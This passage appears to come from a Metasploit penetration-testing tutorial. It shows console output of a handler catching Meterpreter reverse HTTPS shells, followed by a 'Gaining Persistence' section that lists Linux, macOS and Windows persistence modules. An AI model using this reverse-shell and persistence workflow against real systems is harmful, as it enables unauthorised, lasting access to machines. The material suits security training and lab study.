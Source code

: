 ```console
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://0.0.0.0:8443
msf5 exploit(multi/handler) > jobs


Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  linux/x64/meterpreter_reverse_https  https://10.0.0.1:8443
```

This will allow Metasploit to catch Meterpreter shells until the job is killed.

## <a name="persistence">Gaining Persistence<a/>

To find a way to persist, we can start by searching all the Metasploit modules for persistence with the search command.

```console
msf5 > search persistence

Matching Modules
================

   #   Name                                                  Disclosure Date  Rank       Check  Description
   -   ----                                                  ---------------  ----       -----  -----------
   0   auxiliary/server/regsvr32_command_delivery_server                      normal     No     Regsvr32.exe (.sct) Command Delivery Server
   1   exploit/linux/local/apt_package_manager_persistence   1999-03-09       excellent  No     APT Package Manager Persistence
   2   exploit/linux/local/autostart_persistence             2006-02-13       excellent  No     Autostart Desktop Item Persistence
   3   exploit/linux/local/bash_profile_persistence          1989-06-08       normal     No     Bash Profile Persistence
   4   exploit/linux/local/cron_persistence                  1979-07-01       excellent  No     Cron Persistence
   5   exploit/linux/local/rc_local_persistence              1980-10-01       excellent  No     rc.local Persistence
   6   exploit/linux/local/service_persistence               1983-01-01       excellent  No     Service Persistence
   7   exploit/linux/local/yum_package_manager_persistence   2003-12-17       excellent  No     Yum Package Manager Persistence
   8   exploit/osx/local/persistence                         2012-04-01       excellent  No     Mac OS X Persistent Payload Installer
   9   exploit/osx/local/sudo_password_bypass                2013-02-28       normal     Yes    Mac OS X Sudo Password Bypass
   10  exploit/unix/local/at_persistence                     1997-01-01       excellent  Yes    at(1) Persistence
   11  exploit/windows/local/persistence                     2011-10-19       excellent  No     Windows Persistent Registry Startup Payload Installer
   12  exploit/windows/local/persistence_image_exec_options  2008-06-28       excellent  No     Windows Silent Process Exit Persistence
   13  exploit/windows/local/persistence_service             2018-10-20       excellent  No     Windows Persistent Service Installer
   14  exploit/windows/local/ps_wmi_exec                     2012-08-19       excellent  No     Authenticated WMI Exec via Powershell
```